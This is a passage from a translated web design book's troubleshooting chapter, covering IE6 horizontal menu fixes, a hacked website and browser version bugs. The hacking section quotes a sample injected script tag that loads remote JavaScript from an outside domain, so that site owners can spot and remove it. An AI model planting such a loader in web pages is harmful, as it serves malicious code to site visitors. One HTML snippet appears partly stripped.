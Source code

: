 ### 如果有横向菜单问题

以下是两个最常见的水平菜单问题:

> 1.  One of the buttons dropped, especially when viewed in Internet Explorer 6.
> 2.  One button increases the depth, or one button becomes two buttons.

这些故障如图 19-1 所示。

![images](img/9781430242758_Fig19-01.jpg)

***图 19-1。**首页按钮有故障的横向菜单*

这些故障也可能是由 IE 6 引起的，因为它使用的默认字体比任何其他浏览器都大。较大的字体扩大了按钮的宽度，因此菜单对于其容器来说太宽了。为了解决这个问题，你只需要为 IE 6 指定一个较小的字体。创建一个名为`ie6style.css`的特殊附加样式表。它只需要包含来自`mainstyle.css`的`#`容器或#菜单代码，但是将它的字体大小从中等改为较小，如下面的粗体所示:

`#container{text-align:center; background-color:#D7FFEB; font-family: "times new roman";
   **font-size: small;** color: #000000; margin: auto; width:95%;}`

在 HTML 的 head 部分，插入一个条件链接(以粗体显示)。将它放在其他链接的下面，如下面的代码片段所示。

`<head>
<title>Home page …</title>
*meta details go here*
<link rel="stylesheet" type="text/css" href="mainstyle.css" media="screen">
****
<link rel="stylesheet" type="text/css" href="print.css" media="print">
</head>`

还有另外两个问题需要考虑。弱视用户可以用自己的样式表增加字体大小。请注意这一点，并尝试在按钮上为更大的文本尺寸留出足够的空间。

如果水平菜单拒绝在页面上居中，确保在样式表中将`<ul>`块的容器设置为`text-align:center;`。

### 如果你的服务器有问题

反病毒警报:“威胁被阻止。”这是一个真正的警报，因为您没有故意在您的网站中构建任何恶意软件。但是一些卑鄙的家伙入侵了你的网站，并在一个或多个页面中插入了一些 JavaScript 代码。使用您的 FTP 程序下载页面，并查找 JavaScript 片段。流氓脚本通常位于标签`<body>`之后。

典型的流氓脚本如下所示:

`<!-- ad --><script language='JavaScript' src='http://powergym.be/xxxxfs31dj.js'>![images](img/U002.jpg)
</script>`

这种情况不会发生在像样的主机上，但偶尔会发生在安全意识较差的主机上。作为预防措施，请始终使用包含特殊字符和数字的更长、更复杂的密码。但是，如果问题已经发生，补救措施是登录到主机上的控制面板，将 FTP 密码更改为更复杂的密码。然后使用您的 FTP 客户端上传所有受感染页面的干净副本。然后联系主机大声抱怨，直到它让它的服务器更安全。

如果主机服务器突然不接受你的 FTP 密码，可能是因为上一段描述的同样的问题；解决方法是一样的。

### 如果您遇到浏览器变异问题

如果您的页面在一个或多个浏览器中显示不正确，不要认为问题是您的错。我花了两个小时追踪一个问题，结果发现是 Mozilla Firefox 的一个 bug。最右边的列显示在中间的容器中。一次偶然的机会，我在另一台使用火狐浏览器的电脑上查看了这个页面，它没有问题。答案？每台电脑都有不同版本的 Firefox。旧的火狐版本是问题所在；通过更新到最新版本，页面显示正确。总是在浏览器的最新版本和之前的版本上进行测试。
